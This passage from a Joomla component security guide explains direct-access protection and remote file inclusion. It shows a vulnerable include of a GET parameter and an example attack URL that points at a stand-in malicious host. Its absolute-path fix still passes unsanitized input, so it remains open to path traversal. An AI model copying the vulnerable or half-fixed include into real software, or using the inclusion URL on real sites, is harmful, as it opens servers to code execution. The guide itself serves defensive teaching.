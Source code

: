 As you can see, the PHP file will be executed directly, without Joomla!
as a wrapper around it. Now, if your file only contains some classes or
functions, but does not execute any code, there is nothing wrong about
that:

The cracker would just see an empty page when accessing your file
directly. But if that PHP file actually executes anything, he would
probably see a bunch of error messages, revealing important details of
your system. Under some circumstances, he might also be able to execute
any code he wants to, on your system!

**Conclusion:**

To make your component secure against direct access, insert this code
line into the beginning of every PHP file that executes code:

    // no direct access
    defined('_JEXEC') or die('Restricted access');

This is a MUST for every file that executes PHP code. If you are in
doubt whether your file executes code, do use this line!

## Secure your software against remote file inclusion

Recent advances in PHP and Joomla security have made this exploit more
difficult, but it is still important to be aware of it and guard against
it, particularly if you allow user input to define a file path For
example suppose in a template you use code such as the following:-

    $layout = $_GET['layout'];
    include($layout);

An attacker could craft the url to inject a remote file name into the
layout parameter, for example they may try to access your component as:-

    http://www.example.com/com_yourcomponent/views/yourcomponent?layout=http://www.bad.site/bad.gif

which actually sends back executable PHP code under the filename of that
image. The attacker can do anything he wants to do on your webserver!
This is called remote file inclusion. Unfortunately, this is something
even script kiddies could do easily. How to secure against this? Firstly
this kind of attack is made much more difficult by using the absolute
path when including a file, it removes any ambiguity about where PHP
should find the file, for example

    $layout = $_GET['layout'];
    include(JPATH_SITE. '/components/com_yourcomponent/views/tmpl/'.$layout );

or

    include(JPATH_ADMINISTRATOR. '/components/com_yourcomponent/views/tmpl/'.$layout );

As constants JPATH_SITE and JPATH_ADMINISTRATOR are not vulnerable to
manipulation by an attacker. They are defined by Joomla and are
available to use anywhere in your code where you require the path to the
site. However we can do considerably better than this by also properly
sanitizing the user input, using the Joomla JInput class rather than the
raw \$\_GET array.
